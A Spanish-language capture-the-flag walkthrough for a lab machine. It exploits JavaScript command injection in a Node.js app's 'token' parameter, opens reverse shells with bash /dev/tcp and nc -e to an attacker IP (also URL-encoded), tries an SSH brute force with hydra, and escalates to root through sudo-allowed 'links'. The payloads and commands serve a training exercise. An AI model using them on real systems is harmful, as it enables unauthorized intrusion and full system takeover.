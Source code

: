 ## Reconocimiento
Comenzamos con el respectivo reconocimiento usando `nmap`.
``` bash
nmap -p- -sS -sCV --min-rate 5000 -n -Pn 192.168.0.104 -oG scan
```
![](Screenshot%20from%202023-12-13%2005-05-06.png)
- La versión de ssh en la 9.2p1, bastante actualizada, no hay mucho que hacer por ahi
- Tenemos el puerto 80 disponible, pero en realidad solo hay una pagina manual de apache
- En el puerto 5000 podemos ver lo que parece una app de nodejs, verificamos en el navegador

![](Screenshot%20from%202023-12-13%2005-08-22.png)
Si ingresamos cualquier texto en el campo de `name` nos devuelve una url con el siguiente formato (e.j. con el usuario pepe)
``` html
http://192.168.0.104:5000/?name=pepe&token=55569675
```
- Si modificamos el token en la url con más numeros, la pagina aún carga con 'normalidad'
- Si modificamos agregando un string nos salta un error relacionado con javascript

![](Screenshot%20from%202023-12-13%2005-20-13.png)

Acá podemos deducir:
- Un usuario `aleister`
- El directorio donde corre esta app se encuentra en `/home/aleister/website`

### SSH Force Brute
En este punto al tener un usuario podría resultar interesante ejecutar `hydra` para un ataque de fuerza bruta a través de ssh
``` bash
hydra -l aleister -P /usr/share/dict/rockyou.txt ssh://192.168.0.104 
## SPOILER: no funciona
```
### Javascript Command Injection
En este punto, podemos probar si la url es vulnerable a algun tipo de _command injection_ en el payload.
- El campo user es equivalente al texto que le agregamos en la cajita de nombre y en realidad no ejecuta ningun comando por detras. 
- El campo token ha respondido a la inyección de nuestro codigo javascript que ejecuta en la shell un timer de 5 segundos.
	
```javascript
require('child_process').execSync('sleep 5');
```

Para evitar problemas con los espaciados y saltos de linea en la url le mandamos la instrucción en formato `url-encoded`
``` html
http://192.168.0.104:5000/name=pepe&token=require%28%27child_process%27%29.execSync%28%27sleep%205%27%29%3B
```
Comprobado esto, procedemos a mandar una reverse shell para que nos pueda otorgar una consola desde la que podemos operar. 
- Primeramente nos ponemos en escucha con `ncat` por el puerto 4444.
	``` bash
	ncat -lvp 4444
	```
- Ejecutamos el ya conocido reverse shell por el protocolo TCP a través de bash
	``` bash
	bash -i >& /dev/tcp/192.168.0.107/4444 0>&1 # IP maquina atacante
	```
	La url quedaria de esta forma (con el url-encoded)
	``` html
	http://192.168.0.104:5000/?name=pepe&token=require%28%27child_process%27%29.execSync%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.107%2F4444%200%26%3E1%27%29%3B
	```

##### LECTURA OPCIONAL: POSIX y los problemas con la sintaxis stderr/stdout estandar

Ver: [POSIX y los problemas con stdout - stdeer](POSIX%20y%20los%20problemas%20con%20stdout%20-%20stdeer.md)

#### Reverse shell con netcat
Entonces como tenemos ese problema con sh, podemos buscar otras formas de hacer la `reverse shell`, por ejemplo con `ncat`.
``` bash
nc -e /bin/sh 192.168.0.107 4444
```
Con la url _url-encodeada_, quedaria:
``` html
http://192.168.0.104:5000/?name=pepe&token=require%28%27child_process%27%29.execSync%28%27nc%20-e%20%2Fbin%2Fsh%20192.168.0.107%204444%27%29%3B
```
Ejecutamos y... Bingo!

## Escalada de privilegios (Privesec)
### Tratamiento de la tty
Lo primero que vamos a resolver es la cuestión de la tty. Ejecutamos los siguientes comandos en el ncat que estaba en escucha por el 4444.

Ver: [Linux Full TTY (Interective shell)](Linux%20Full%20TTY%20(Interective%20shell).md)
### Reconocimiento de la maquina victima
Si ejecutamos `sudo -l` podemos ver que tenemos la app ubicada en `/usr/bin/links` que podemos ejecutar como `root` sin necesidad de presentar una contraseña. Probamos, en realidad no parece salir nada, pero si presionamos `Esc` podemos ver un panel de opciones.

![](Screenshot%20from%202023-12-14%2000-54-27.png)
### Ascenso a root
Si buscamos las opciones entre los paneles, podemos ver que en el apartado _File_ existe una opción llamada _OS shell_.

![](Screenshot%20from%202023-12-14%2000-57-01.png)
Si ejecutamos esa opción como tal, nos devolvera una shell como el usuario root. Eso es todo.
##### OPCIONAL: Posibilidad de ascender a root a través de una reverse shell desde una pagina en el navegador (?)
La idea de este punto es poder ejecutar alguna pequeña pagina en la cual le puedas inyectar codigo que se ejecute como `client-side` (nosotros desde el navegador somos el cliente) que probablemente se termine ejecutando como root. Solo es una idea igual y no se si es posible, si bien investigando encontre que hay muchos problemas a la hora de ejecutar comandos en el lado del cliente (lo cual tiene sentido por razones de seguridad).

